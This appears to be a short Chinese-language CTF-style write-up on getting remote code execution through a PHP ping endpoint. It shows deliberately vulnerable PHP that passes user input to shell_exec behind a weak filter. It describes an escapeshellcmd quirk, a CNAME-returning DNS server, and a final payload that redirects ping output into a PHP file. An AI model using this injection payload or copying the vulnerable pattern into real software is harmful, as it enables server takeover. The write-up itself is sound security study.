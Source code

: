 ## Example

```php
<?php
	$ip = $_GET['ip'] ?? exit;
	if (strpbrk($ip, "&;`|*?()$\\\x00") != false) {
        exit("WAF");
    }
	if (stripos($ip, ".php") != false) {
        exit("WAF");
    }
	$ip = escapeshellcmd($ip);
	$ip = str_replace('\>', '>', $ip);
	echo shell_exec('ping -c1 '.$ip);
?>
```

## 突破`stripos`的检查

### escapeshellcmd特性

> [PHP: escapeshellcmd - Manual](https://www.php.net/manual/en/function.escapeshellcmd.php)

![image-20220805171251114](RCE_caused_by_ping/image-20220805171251114.png)

## 控制ping返回值

![image-20220805172055562](RCE_caused_by_ping/image-20220805172055562.png)

这里的`CNAME`的解释

> 你有两个域名http://a.me和http://b.me，http://b.me指向145.22.3.116，http://a.me指向http://b.me。

### 搭建返回CNAME值的DNS服务

[server.py](dns_cname_server.py)

![image-20220805175616879](RCE_caused_by_ping/image-20220805175616879.png)

## 本地DNS影响

![image-20220805175712263](RCE_caused_by_ping/image-20220805175712263.png)

![image-20220805175723623](RCE_caused_by_ping/image-20220805175723623.png)

## 利用

```php
ping yourdomain.com > 1.ph""p
```

